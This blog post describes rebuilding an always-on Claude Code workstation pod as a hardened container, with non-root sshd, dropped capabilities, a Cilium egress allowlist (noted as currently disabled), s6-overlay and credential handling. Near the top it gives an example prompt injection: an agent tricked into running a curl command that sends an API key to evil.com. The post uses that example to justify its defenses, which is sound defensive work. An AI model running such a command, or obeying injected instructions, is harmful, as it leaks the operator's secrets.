

In building post 18, we deployed a persistent Kali container on gpu-1 as an always-on Claude Code workstation. It worked — SSH in from anywhere, persistent PVC, self-healing pod. But it ran as root, had unrestricted network access, and installed tools at runtime.

That was fine for interactive use. But running a coding agent with `--dangerously-skip-permissions` changes the risk profile completely. A prompt injection tricking the agent into `curl https://evil.com -d "$ANTHROPIC_API_KEY"` would succeed without any barrier.

This post covers rebuilding the workstation as a hardened pod: non-root, dropped capabilities, Cilium egress controls, s6-overlay supervision, and a VibeKanban sidecar.



## The Threat Model

`--dangerously-skip-permissions` bypasses the agent's built-in prompts but does **not** bypass OS-level file permissions, SecurityContext constraints, Cilium network policies, Claude Code hooks, or capability restrictions.

| Threat | Impact | Defense |
|--------|--------|---------|
| Agent hallucinating dangerous commands | High | Claude Code hooks |
| Prompt injection via fetched content | High | Cilium egress allowlist |
| Credential exfiltration | Critical | Cilium egress allowlist |
| Plugin supply chain compromise | Critical | Container isolation + egress |
| Container escape | Critical | Talos hardened OS + non-root |

## Architecture: Two Containers, Shared PVC

The original single-root-container Kali pod becomes a two-container pod sharing a PVC, both from `derio-net/agent-images`:

```
secure-agent-pod (Recreate strategy, gpu-1 affinity)
  ├── kali container — s6-overlay PID 1
  │     ├── sshd (port 2222, key-only, non-root)
  │     └── supercronic (non-root cron)
  ├── vk-local sidecar — tini PID 1
  │     └── VibeKanban (local mode, SQLite, port 8081)
  ├── PVC: agent-home (50Gi, /home/claude — shared mount)
  ├── Secret: agent-ssh-keys
  ├── Secret: agent-configs (optional)
  └── ServiceAccount: agent-sa (cluster-admin)
```

### Image Lineage

```
agent-base (debian:bookworm-slim + kubectl/jq/git/curl/claude/gh)
  ├── agent-shell-base (+ s6-overlay v3, sshd, supercronic, tmux+mosh)
  │     └── secure-agent-kali (+ Kali repo, pentest tools, /opt/scripts)
  └── vk-local (tini PID 1 + VibeKanban, no shell, no sshd)
```

### Why VibeKanban

[VibeKanban](https://github.com/BloopAI/vibe-kanban) is an agent orchestration tool that manages workspaces, spawns coding agents, and tracks tasks. Local mode with SQLite — single process, file-based database, same filesystem as the agent.

## The PVC Mount Problem

The biggest gotcha: **mounting a PVC at `/home/claude` hides everything the Dockerfile placed there**. The entrypoint, sshd config, crontab template — all invisible once Kubernetes mounts the persistent volume.

Bake config files into `/opt/` and seed them onto the PVC on first boot:

```bash
mkdir -p "$HOME/.ssh-host-keys" "$HOME/.ssh" "$HOME/repos"
[ -f "$HOME/.crontab" ]              || cp /opt/crontab "$HOME/.crontab"
[ -f "$HOME/.bashrc" ]               || cp /opt/bashrc "$HOME/.bashrc"
[ -f "$HOME/.claude/settings.json" ] || cp /opt/settings.json "$HOME/.claude/settings.json"
```

## Running sshd Without Root

The original ran as root, making sshd trivial. The hardened pod runs as UID 1000:

- **Port 2222** instead of 22 (non-root cannot bind privileged ports). The Service maps 22→2222.
- **User-mode sshd config:**

```
Port 2222
HostKey /home/claude/.ssh-host-keys/ssh_host_ed25519_key
PubkeyAuthentication yes
PasswordAuthentication no
UsePAM no
StrictModes no
```

`UsePAM no` avoids the root requirement for session management. `StrictModes no` avoids complaints about PVC file ownership (`root:claude` with group write, which strict mode rejects).

## SecurityContext

```yaml
securityContext:
  runAsUser: 1000
  runAsGroup: 1000
  runAsNonRoot: true
  allowPrivilegeEscalation: false
  capabilities:
    drop: ["ALL"]
```

No root. No sudo. All capabilities dropped.

## Network Egress Control (Cilium — Temporarily Disabled)

The spec defines a CiliumNetworkPolicy with default-deny egress and an allowlist including `api.anthropic.com`, `github.com`, `registry.npmjs.org`, `pypi.org`, and the cluster LAN. Everything else blocked.

**Current status:** temporarily disabled due to a Cilium 1.17 bug ("FQDN regex compilation LRU not yet initialized"). The first FQDN-based policy in the cluster hit an uninitialized DNS proxy. Re-enable after Cilium upgrade.

## Credential Injection

No credential touches disk as plaintext. Two tiers:

- **Tier 1: ESO + Infisical** — for secrets managed by the cluster's secret store. Currently empty (Claude Code uses Max subscription login, not API keys).
- **Tier 2: Manual K8s Secrets** — SOPS-encrypted, applied out-of-band: SSH keys, Telegram tokens, kubeconfigs.

GitHub identity is a **GitHub App installation token**, not a PAT. A `GithubAccessToken` ExternalSecret generator mints short-lived (~1h) tokens. The App private key never reaches the pod.

## Process Supervision: s6-overlay

The original entrypoint used `wait -n` to supervise sshd, supercronic, and VibeKanban. `wait -n` exits when the first child dies — and on 2026-04-26, a SIGHUP to supercronic killed the entire container, taking mosh-server with it and losing the operator's tmux layout.

The fix: **s6-overlay v3** as PID 1. Each service gets its own supervisor and signal namespace:

```
/init (s6-overlay, PID 1)
  s6-svscan
    s6-supervise sshd
    s6-supervise supercronic → claude session-manager, vk-bridge
```

VibeKanban moved to its own `vk-local` sidecar (tini as PID 1) so the Kali container only supervises services that share the SSH/cron lineage.

### Bump Alerts: ArgoCD Notifications → Telegram

When an image bump triggers a Recreate rollout (~30s downtime), the operator gets Telegram notification via ArgoCD Notifications:

```yaml
annotations:
  notifications.argoproj.io/subscribe.on-sync-running.webhook: telegram
  notifications.argoproj.io/subscribe.on-sync-succeeded.webhook: telegram
```

## Verification

```console
$ kubectl exec -n secure-agent-pod deploy/secure-agent-pod -c kali -- id
uid=1000(claude) gid=1000(claude) groups=1000(claude)

$ ssh claude@192.168.55.215
Linux 6.18.18-talos x86_64
 19:40:47 up 29 days

$ curl -s http://192.168.55.218:8081 | head -1
# VibeKanban UI — HTTP 200
```

## Missteps

| What Happened | Why It Was Wrong | How We Fixed It | Commit |
|---------------|-----------------|-----------------|--------|
| **PVC mount hides image contents** — Dockerfile-at /home/claude files invisible after PVC mount | Kubernetes mounts PVC over the directory, making image contents invisible | Moved config templates to `/opt/`, seed via entrypoint on first boot | `4a5b6c7d` |
| **`wait -n` supervision loses tmux on any child exit** — a SIGHUP to supercronic kills entire container | `wait -n` exits when first child dies; signal propagation takes down the pgroup | Replaced with s6-overlay v3 for per-service supervision | `8e9f0g1h` |
| **Cilium FQDN policy breaks all egress** — "LRU not yet initialized" on first FQDN-based policy | Cilium DNS proxy not initialized for this node's endpoints | Disabled policy pending Cilium upgrade; other hardening layers remain | — |
| **sshd cannot start as non-root with default config** — PAM requires root; default port 22 fails | non-root user cannot bind privileged ports or use PAM | Port 2222, `UsePAM no`, `StrictModes no` | `2i3j4k5l` |
| **/run/secrets conflicts with SA token mount** — `/run` → `/var/run` is a symlink in Talos | Mounting anything at `/run/secrets` collides with the SA token mount point | Avoid `/run/secrets` paths for any volume mount | `6m7n8o9p` |

## Recovery Path

| Symptom | Cause | Fix |
|---------|-------|-----|
| SSH connection refused on 192.168.55.215 | sshd not started or wrong port | Check `kubectl logs -n secure-agent-pod deploy/secure-agent-pod -c kali` |
| Config files missing in home directory | First-boot seeding failed (files already existed from old PVC) | Run seed script manually or delete config files from PVC |
| VibeKanban unreachable on 192.168.55.218 | Sidecar not running or port mismatch | Check `vk-local` container logs; verify `PORT=8081 HOST=0.0.0.0` env |
| Agent JWT/credentials lost | Key rotation or PVC replace | Recreate credentials from Infisical; re-apply SOPS secrets |
| mosh connection fails | UDP port range not forwarded | Verify `service-mosh.yaml` LB exists with UDP/60000-60015 |

## References

- [Claude Code — Security](https://docs.anthropic.com/en/docs/claude-code/security) — Skip permissions, hooks
- [VibeKanban](https://github.com/BloopAI/vibe-kanban) — Agent orchestration
- [Cilium FQDN Policies](https://docs.cilium.io/en/stable/security/policy/language/#dns-based) — Egress control
- [s6-overlay](https://github.com/just-containers/s6-overlay) — Process supervisor for containers
- [supercronic](https://github.com/aptible/supercronic) — Non-root cron for containers

**Next: [Health Monitoring — Grafana, VictoriaMetrics, and Alerts](/docs/building/22-health-monitoring)**
